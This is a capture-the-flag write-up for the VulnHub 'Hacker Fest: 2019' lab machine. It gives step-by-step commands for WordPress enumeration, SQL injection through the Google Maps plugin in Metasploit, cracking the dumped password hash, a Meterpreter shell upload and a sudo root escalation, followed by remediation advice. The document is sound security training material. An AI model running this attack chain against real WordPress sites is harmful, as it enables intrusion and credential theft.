



# Hacker Fest: 2019 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.20 (host-only) |
| **Difficulty** | Easy |
| **OS** | Linux (Apache/WordPress) |
| **Root Flag** | flag.txt in /root |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/hacker-fest-2019,405/) |

## Attack Summary

nmap → WordPress → wpscan → Google Maps plugin SQLi (MSF) → hash dump → john (kittykat1) → wp_admin_shell_upload → www-data → sudo -l → sudo su → root

## Methodology

1. Network discovery and port scan
2. WordPress enumeration with wpscan
3. SQL injection via outdated Google Maps plugin
4. Hash cracking with john + rockyou
5. Admin shell upload via Metasploit
6. Privilege escalation via sudo misconfiguration

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.20
```

Open ports: 21 (FTP), 22 (SSH), 80 (Apache + WordPress).



---

## Step 2: WordPress Enumeration

```bash
wpscan --url http://192.168.0.20/ --enumerate p
```

Identifies the **WP Google Maps** plugin as outdated and vulnerable to SQL injection.



---

## Step 3: SQL Injection — Hash Extraction

```bash
msfconsole -q
use auxiliary/admin/http/wp_google_maps_sqli
set RHOSTS 192.168.0.20
exploit
```

Dumps WordPress user hashes. Save the `webmaster` hash to a file.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
# webmaster : kittykat1
```


---

## Step 4: Admin Shell Upload

```bash
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 192.168.0.20
set USERNAME webmaster
set PASSWORD kittykat1
exploit
```

Meterpreter session as `www-data`.

```bash
shell
python -c 'import pty;pty.spawn("/bin/bash")'
su webmaster
# Password: kittykat1
```


---

## Step 5: Privilege Escalation

```bash
sudo -l
# (ALL : ALL) ALL  ← webmaster can run everything as root
sudo su
id
# uid=0(root)
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Outdated WordPress plugins** — WP Google Maps SQLi is a well-known CVE; keep plugins updated
2. **Weak passwords** — `kittykat1` cracks in seconds with rockyou
3. **Overpermissive sudo** — `(ALL:ALL) ALL` for a web user is a critical misconfiguration
4. **WordPress admin = RCE** — once admin creds are obtained, theme/plugin editor and shell upload give instant code execution

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| WP Google Maps SQLi | Update plugin to current version |
| Weak admin password | Enforce strong passwords; use a password manager |
| sudo ALL for www-data/webmaster | Remove from sudoers; web users should have zero sudo access |
| Admin shell upload | Disable file editing in wp-config.php: `define('DISALLOW_FILE_EDIT', true)` |
